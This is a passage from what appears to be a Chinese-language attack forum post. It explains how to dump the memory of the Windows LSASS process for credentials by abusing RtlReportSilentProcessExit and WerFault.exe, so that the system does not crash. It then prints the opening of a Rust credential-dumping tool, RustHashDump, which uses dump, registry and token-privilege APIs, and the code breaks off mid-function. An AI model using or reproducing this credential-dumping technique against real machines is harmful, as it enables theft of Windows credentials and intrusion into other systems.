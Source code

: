 ```php
```

下面就是让lsass进程终止了，但是lsass.exe是系统进程，如果彻底终止就会导致系统蓝屏从而重启电脑，但是我们的目的只是为了转储lsass进程而不让电脑重启，这个时候我们就用到了RtlReportSilentProcessExit这个api，该API将与Windows错误报告服务（WerSvcGroup下的WerSvc）通信，告诉服务该进程正在执行静默退出。然后，WER服务将启动WerFault.exe，该文件将转储现有进程。值得注意的是，调用此API不会导致进程退出。其定义如下：

```php

NTSTATUS （NTAPI * RtlReportSilentProcessExit ）（
        _In_      HANDLE      ProcessHandle，
        _In_      NTSTATUS    ExitStatus 
       ）;
```

所以最终的流程就是类似如图  
![](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-d9c35a5236c22de8ee8a3fa650637f24ae36f908.png)

作者的代码中，提供了两种方法来实现崩溃，一种是直接调用RtlReportSilentProcessExit，而另一种则是使用CreateRemoteThread()来实现，实际上就是远程在LSASS中创建线程执行`RtlReportSilentProcessExit`。

这里使用的是第一种方式来实现的。  
代码 <https://github.com/haoami/RustHashDump>

```rust
use std::{mem::{ size_of, transmute}, ffi::{CStr, OsString, c_void, OsStr, CString}, os::windows::prelude::{OsStringExt, AsRawHandle, RawHandle, OsStrExt}, fs::File, path::{Path, self}, ptr::null_mut, process::ExitStatus};
use std::ptr;
use clap::{App,Arg};
use log::{error};
use windows_sys::{Win32::{Foundation::{
    CloseHandle, GetLastError, INVALID_HANDLE_VALUE, HANDLE, LUID, NTSTATUS,
}, Security::{TOKEN_PRIVILEGES, LUID_AND_ATTRIBUTES, SE_PRIVILEGE_ENABLED, TOKEN_ADJUST_PRIVILEGES, LookupPrivilegeValueA, AdjustTokenPrivileges}, System::{Threading::{OpenProcessToken, GetCurrentProcess, PROCESS_QUERY_LIMITED_INFORMATION, PROCESS_VM_READ}, Diagnostics::ToolHelp::TH32CS_SNAPTHREAD, Registry::{HKEY_LOCAL_MACHINE, HKEY, RegOpenKeyExW, KEY_READ, KEY_WRITE, RegCreateKeyExW, KEY_SET_VALUE, RegSetValueExA, REG_DWORD, KEY_ALL_ACCESS, REG_SZ, RegCreateKeyA, REG_CREATED_NEW_KEY}, LibraryLoader::{GetModuleHandleA, GetProcAddress, GetModuleHandleW}}, Storage::FileSystem::CreateFileA, UI::WindowsAndMessaging::GetWindowModuleFileNameA}, core::PCSTR};
use windows_sys::Win32::Storage::FileSystem::{
    CreateFileW,CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL,
};
use windows_sys::Win32::System::Diagnostics::Debug::{
    MiniDumpWithFullMemory,MiniDumpWriteDump
};
use windows_sys::Win32::System::Diagnostics::ToolHelp::{
    CreateToolhelp32Snapshot, Process32First, Process32Next, PROCESSENTRY32, TH32CS_SNAPPROCESS,
};

use windows_sys::Win32::System::SystemServices::GENERIC_ALL;
use windows_sys::Win32::System::Threading::{OpenProcess, PROCESS_ALL_ACCESS};

type FnRtlreportSilentProcessExit = unsafe extern "system" fn(HANDLE, NTSTATUS) -> NTSTATUS;

fn getPrivilege(handle : HANDLE){
    unsafe{
        let mut h_token: HANDLE =  HANDLE::default();
        let mut h_token_ptr: *mut HANDLE = &mut h_token;
        let mut tkp: TOKEN_PRIVILEGES = TOKEN_PRIVILEGES {
            PrivilegeCount: 1,
            Privileges: [LUID_AND_ATTRIBUTES {
                Luid: LUID {
                    LowPart: 0,
                    HighPart: 0,
                },
                Attributes: SE_PRIVILEGE_ENABLED,
```